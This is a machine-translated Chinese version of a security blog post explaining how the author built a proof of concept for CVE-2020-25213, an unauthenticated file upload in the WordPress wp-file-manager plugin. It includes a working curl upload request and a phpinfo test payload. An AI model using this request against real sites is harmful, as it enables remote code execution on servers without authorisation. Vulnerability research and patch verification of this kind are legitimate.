




# 剥削 CVE-2020–25213:WP-文件-管理器 wordpress 插件(<6.9) for unauthenticated arbitrary file upload

> 原文：<https://infosecwriteups.com/exploiting-cve-2020-25213-wp-file-manager-wordpress-plugin-6-9-3f79241f0cd8?source=collection_archive---------0----------------------->



Hello everyone!!

**Mansoor(@time4ster)** 在此。这是我对信息安全社区的第一次贡献，我希望你会喜欢这篇文章。

对于漏洞代码，你可以直接访问我的 github [回购](https://github.com/mansoorr123/wp-file-manager-CVE-2020-25213)。

**免责声明 **

我没有发现这个漏洞&也没有从这个 CVE 身上得到任何荣誉。我只是在分析了各种博客(如 [wordfence](https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/) 、 [seravo](https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/) )上的描述后创建了这个漏洞，其座右铭是让读者了解如何通过分析漏洞的描述来创建 POC。

我对使用该漏洞给组织造成的任何损失不负任何责任&我建议读者在没有组织书面同意的情况下不要利用该漏洞，因为它可能会使组织暴露于其他黑客的攻击之下。

# 关于漏洞:

[**CVE-2020–25213**](https://nvd.nist.gov/vuln/detail/CVE-2020-25213):WordPress 6.9 之前的文件管理器(wp-file-manager)插件允许远程攻击者上传并执行任意 PHP 代码，因为它将一个不安全的示例 elFinder 连接器文件重命名为具有。php 扩展。例如，这使得攻击者能够运行 elFinder upload(或 mkfile 和 put)命令，将 PHP 代码写入 WP-content/plugins/WP-file-manager/lib/files/目录。这是 2020 年 8 月和 9 月在野外开采的。

**CVSS:** **9.8**

# 发生了什么事？

在 8 月的最后一周，该漏洞开始作为零日被利用。9 月 1 日，插件开发者修补了漏洞&发布了版本 **6.9。**补丁发布后，各种组织如 [wordfence](https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/) 、 [seravo](https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/) &还有一些组织发表了博客，描述 wp-file-manager zero day &如何在野外被利用的细节。

# 设置环境

1.  在虚拟机(或本地主机)上安装 wordpress。在 ubuntu 上安装 wordpress 可以参考这个[站点](https://ubuntu.com/tutorials/install-and-configure-wordpress#1-overview)。

2.从[这里](https://downloads.wordpress.org/plugin/wp-file-manager.6.0.zip)下载并安装易受攻击的 WP-文件管理器插件(版本 6.0)。

3.安装 El finder[可选]

# 创建漏洞

wp-file-manager 插件使用的 **elFinder 的**库的*/WP-content/plugins/WP-file-manager/lib/PHP/connector . minimal . PHP*文件负责上传任何给定扩展名的任意文件(未经验证)。

为了理解 elFinder 如何上传文件，让我们首先在 localhost 上下载并配置 elFinder。

```
git clone [https://github.com/Studio-42/elFinder.git](https://github.com/Studio-42/elFinder.git)
mv elFinder/php/connector.minimal.php-dist elFinder/php/connector.minimal.php
chown -R www-data:www-data elFinder/
```

在访问 */elFinder.html* 时，显示文件管理器菜单，包括文件上传选项:



现在，我们将上传任何图像文件，并在 burp 套件中监控请求。

在 burp suite 中，POST 请求被发送到*/El finder/PHP/connector . minimal . PHP*&作为响应，位置被反映为文件上传的位置。


现在我们将把*/El finder/PHP/connector . minimal . PHP*替换为*/WordPress/WP-content/plugins/WP-file-manager/lib/PHP/connector . minimal . PHP*【我们的 wordress 站点中的插件位置】&看看我们是否能够上传文件？

我们能够上传文件太好了！！这意味着现在我们可以上传任意扩展名的任意文件。

为了上传 php 文件，在上面的请求中(改变 URL 之后),我们需要将文件名改为 poc_PHPinfo.php，其内容为

```
<?php 
echo “POC By Time4ster”;
phpinfo(); 
?>
```

&耶！！PHP 文件被上传，URL 也显示在文件上传的响应中。



上传的文件可以在:[http://192 . 168 . 1 . 54/WordPress/WP-content/plugins/WP-file-manager/lib/files/POC _ phpinfo . PHP](http://192.168.1.54/wordpress/wp-content/plugins/wp-file-manager/lib/files/poc_PHPinfo.php)


上述打嗝要求的等效卷曲有效载荷:

```
curl -ks — max-time 5 — user-agent “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.90 Safari/537.36” -F “reqid=17457a1fe6959” -F “cmd=upload” -F “target=l1_Lw” -F “mtime[]=1576045135” -F “upload[]=@//root/poc_PHPinfo.php” “[http://192.168.1.54/wordpress/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php](http://192.168.1.54/wordpress/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php)"
```

这里的 */root/poc_PHPinfo.php* 文件可以替换为我们想要上传到服务器上的任意文件。

**注意:**有时候 php 文件会被防火墙拦截，所以最好先上传 txt 文件来确认漏洞。

还要注意，上传的文件可以被任何未经认证的用户访问(在 php 中为& executed ),所以上传文件时要小心。

# 剥削

我创建的 Bash 漏洞利用代码:

[https://github . com/manso or 123/WP-file-manager-CVE-2020-25213](https://github.com/mansoorr123/wp-file-manager-CVE-2020-25213)

# 影响

利用此漏洞，攻击者可以上传 php 文件并在目标上执行文件，而无需任何身份验证，从而导致机器完全受损。(CVSS: 9.8 分)。

wp-file-manager 有 600，000 多个活跃安装，其中只有 53.3%的用户在撰写本文时升级到了最新的插件版本 6.9。



来源:https://wordpress.org/plugins/wp-file-manager/advanced/

# 修补

从[厂商网站](https://wordpress.org/plugins/wp-file-manager/)升级到 wp-file-manager 的最新版本(版本≥6.9)。

# 时间表

上周 8 月:漏洞作为零日开始被利用。

9 月 1 日:厂商发布补丁。

9 月 2 日:各种博客发布描述这个零日&漏洞的细节。

9 月 4 日:在研究了漏洞之后，创建了我的 bash 漏洞利用脚本。

9 月 9 日:CVE 2020–25213 被分配到这个零日利用。

# 信用

1.  [https://www . word fence . com/blog/2020/09/700000-WordPress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/](https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/)
2.  [https://seravo . com/blog/0-day-vulnerability-in-WP-file-manager/](https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/)

感谢您阅读这篇文章。如果你喜欢我的报道，请点击**👏与你的朋友分享，这将鼓励我在未来发表更多的 Infosec 文章。**